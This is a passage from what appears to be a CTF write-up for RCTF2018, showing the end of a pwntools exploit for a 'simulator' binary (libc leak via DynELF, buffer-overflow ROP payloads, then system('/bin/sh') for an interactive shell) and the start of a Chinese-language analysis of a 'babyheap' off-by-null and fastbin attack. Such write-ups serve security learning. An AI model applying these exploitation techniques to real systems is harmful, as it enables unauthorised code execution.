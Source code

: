     	# step 2: 
    	# Method 2: use DynELF
    	d = DynELF(leak, elf=ELF('./simulator'))
    	system_addr = d.lookup('system', 'libc')
    	lg('system_addr',system_addr)
    	libc.address = system_addr - u32(data)
    	lg('libc_addr',libc.address)
    	
    	# leak the value of stdin
    	sl('END')
    	payload = 'A'*0x30
    	payload += p32(puts_plt) + p32(pop_ret) + p32(stdin_addr)
    	payload += p32(vul_func)
    	sla('comment: ',payload)
    	stdin_addr = u32(rv(4))
    	lg('stdin_addr',stdin_addr)
    
    	# execute system('/bin/sh')
    	sl('END')
    	sh_addr = addr_bss
    	payload = 'A'*0x30 + p32(fgets_plt) + p32(ppp_ret) + p32(sh_addr) + p32(8) + p32(stdin_addr)
    	payload += p32(system_addr) + p32(vul_func) + p32(sh_addr)
    	sla('comment: ',payload)
    	sl('/bin/sh\0')
    	p.interactive()
    
    hack()
# babyheap #
## 1.题目分析 ##
off by null的极限利用。  
存在漏洞的函数位置如下所示：
![漏洞点](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/picture/babyheap_vulpos.png)  
**利用思路为off by null + fastbin attack**  
## 2.漏洞利用 ##
### 2.1 leak libc地址 ###